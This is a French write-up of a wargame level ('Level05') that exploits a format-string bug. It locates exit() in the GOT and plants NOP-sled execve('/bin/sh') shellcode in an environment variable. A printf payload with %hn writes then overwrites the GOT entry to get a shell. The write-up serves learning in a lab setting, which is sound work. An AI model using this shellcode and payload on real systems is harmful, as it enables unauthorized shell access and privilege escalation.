




# Level05:

Dans ce level05 le code est assez simple, il faut faire une **String format exploit** sur l'entree standard.

On veut connaitre l'adresse de `exit()` dans la **Global Offset Table** a l'aide de la commande suivant nous la trouvons sans soucis:
`objdump -R ./level05`



En suite il nous faut connaitre l'offset de l'adresse dans le printf:

```for i in {0..20}; do (python -c 'print "aaaa " + str('$i') + " => %" + str('$i') + "$p"') | ./level05; done;```

Avec la commande ci-dessus nous observons que le les **aaaa** se retrouvent a l'index 10:



A partir de la il suffit de placer notre exploit dans les variable d'environnement comme suit:

`export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")`

Nous pouvons maintenant contruire notre string pour remplacer l'adresse de `exit()` par celle de notre exploit que nous avons recupere comme suit:
`x/500x $esp-200`



On va donc garder `0xffffd854` pour l'adresse de l'exploit.

Maintenant on decompose les deux parties, `0xffff` et `0xd854`
Et nous allons ecrire les deux shorts l'un apres l'autre en commencant par le poid faible (`0xd854`):

Donc sachant que `0xd854` = `55380`, nous allons ecrire `55380` - la longueur des adresses (8) soit `55372` pour le premier short et `0xffff` - `0xd854` = `0x27ab` soit 10155

[**Adresse EXPLOIT**][**Adresse exploit + 2 bytes**][**Padding pour les 2 premiers bytes**][**Padding pour les 2 suivants**]
`(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%55372d%10$hn" + "%10155d%11$hn"' ; cat) | ./level05`

On accede donc comme prevu a un shell.
